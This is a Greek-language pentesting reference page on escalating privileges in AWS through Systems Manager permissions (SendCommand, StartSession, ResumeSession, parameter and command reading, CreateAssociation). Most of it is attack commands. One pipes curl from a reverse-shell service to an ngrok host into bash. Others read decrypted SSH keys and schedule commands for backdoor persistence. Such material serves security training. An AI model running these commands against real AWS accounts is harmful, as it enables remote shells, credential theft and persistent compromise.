 # AWS - SSM Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SSM

Για περισσότερες πληροφορίες σχετικά με το SSM δείτε:

{{#ref}}
../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/
{{#endref}}

### `ssm:SendCommand`

Ένας attacker με την άδεια **`ssm:SendCommand`** μπορεί να **εκτελέσει εντολές σε instances** που τρέχουν τον Amazon SSM Agent και να **παραβιάσει το IAM Role** που τρέχει μέσα σε αυτά.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Σε περίπτωση που χρησιμοποιείτε αυτήν την τεχνική για να escalate privileges μέσα σε ένα ήδη compromised EC2 instance, μπορείτε απλά να καταγράψετε το rev shell τοπικά με:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Πιθανός Αντίκτυπος:** Άμεση privesc στα EC2 IAM roles που είναι συνημμένα σε instances που τρέχουν SSM Agents.

### `ssm:StartSession`

Ένας επιτιθέμενος με την άδεια **`ssm:StartSession`** μπορεί να **ξεκινήσει μια σύνδεση τύπου SSH σε instances** που τρέχουν τον Amazon SSM Agent και να **compromise the IAM Role** που τρέχει μέσα σε αυτήν.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
> [!CAUTION]
> Για να ξεκινήσετε μια συνεδρία χρειάζεται να έχετε εγκαταστήσει το **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)

**Potential Impact:** Άμεσο privesc στα EC2 IAM roles που είναι attached σε εκτελούμενες instances με ενεργούς SSM Agents.

#### Privesc σε ECS

Όταν οι **ECS tasks** τρέχουν με **`ExecuteCommand` enabled** χρήστες με επαρκή δικαιώματα μπορούν να χρησιμοποιήσουν `ecs execute-command` για να **εκτελέσουν μια εντολή** μέσα στο container.\
Σύμφωνα με [**την τεκμηρίωση**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) αυτό γίνεται δημιουργώντας ένα ασφαλές κανάλι μεταξύ της συσκευής που χρησιμοποιείτε για να ξεκινήσετε την “_exec_“ εντολή και του στοχευμένου container με το SSM Session Manager. (SSM Session Manager Plugin απαραίτητο για να λειτουργήσει αυτό)\
Επομένως, χρήστες με `ssm:StartSession` θα μπορούν να **αποκτήσουν shell μέσα σε ECS tasks** με αυτή την επιλογή ενεργοποιημένη απλώς εκτελώντας:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../images/image (185).png>)

**Πιθανός Αντίκτυπος:** Άμεση privesc στα `ECS` IAM roles που είναι συνδεδεμένα με running tasks με ενεργοποιημένο το `ExecuteCommand`.

### `ssm:ResumeSession`

Ένας attacker με την άδεια **`ssm:ResumeSession`** μπορεί να re-**start a SSH like session in instances** που τρέχουν τον Amazon SSM Agent με κατάσταση SSM συνεδρίας **disconnected** και να **compromise the IAM Role** που τρέχει μέσα σε αυτήν.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potential Impact:** Άμεσο privesc στους EC2 IAM roles που είναι συνδεδεμένοι με running instances που έχουν SSM Agents σε λειτουργία και αποσυνδεδεμένες συνεδρίες.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Ένας επιτιθέμενος με τα αναφερόμενα δικαιώματα θα μπορεί να απαριθμήσει τα **SSM parameters** και να **τα διαβάσει σε clear-text**. Σε αυτές τις παραμέτρους συχνά μπορείτε να **βρείτε ευαίσθητες πληροφορίες** όπως SSH keys ή API keys.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potential Impact:** Εύρεση ευαίσθητων πληροφοριών μέσα στις παραμέτρους.

### `ssm:ListCommands`

Ένας attacker με αυτή την άδεια μπορεί να απαριθμήσει όλες τις **commands** που στάλθηκαν και, ενδεχομένως, να βρει **ευαίσθητες πληροφορίες** σε αυτές.
```
aws ssm list-commands
```
**Potential Impact:** Βρείτε ευαίσθητες πληροφορίες μέσα στις γραμμές εντολών.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Ένας επιτιθέμενος με αυτά τα δικαιώματα μπορεί να απαριθμήσει όλες τις **εντολές** που στάλθηκαν και να **διαβάσει την έξοδο** που παράχθηκε, ελπίζοντας να βρει **ευαίσθητες πληροφορίες** σε αυτή.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Πιθανός Αντίκτυπος:** Μπορεί να αποκαλυφθούν ευαίσθητες πληροφορίες στην έξοδο των εντολών.

### Χρήση του ssm:CreateAssociation

Ένας επιτιθέμενος με την άδεια **`ssm:CreateAssociation`** μπορεί να δημιουργήσει ένα State Manager Association για να εκτελεί αυτόματα εντολές σε EC2 instances που διαχειρίζονται από SSM. Αυτές οι associations μπορούν να ρυθμιστούν να εκτελούνται σε σταθερά διαστήματα, καθιστώντας τες κατάλληλες για backdoor-like persistence χωρίς διαδραστικές συνεδρίες.
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> Αυτή η μέθοδος persistence λειτουργεί όσο το EC2 instance διαχειρίζεται από Systems Manager, ο SSM agent τρέχει, και ο επιτιθέμενος έχει άδεια να δημιουργεί associations. Δεν απαιτεί interactive sessions ή ρητές άδειες ssm:SendCommand. **Σημαντικό:** Η παράμετρος `--schedule-expression` (π.χ., `rate(30 minutes)`) πρέπει να σέβεται το ελάχιστο διάστημα που ορίζει η AWS, 30 λεπτά. Για άμεση ή εφάπαξ εκτέλεση, παραλείψτε εντελώς την παράμετρο `--schedule-expression` — η association θα εκτελεστεί μία φορά μετά τη δημιουργία.

### Codebuild

Μπορείτε επίσης να χρησιμοποιήσετε το SSM για να μπείτε σε ένα codebuild project που χτίζεται:

{{#ref}}
../aws-codebuild-privesc/README.md
{{#endref}}

{{#include ../../../../banners/hacktricks-training.md}}
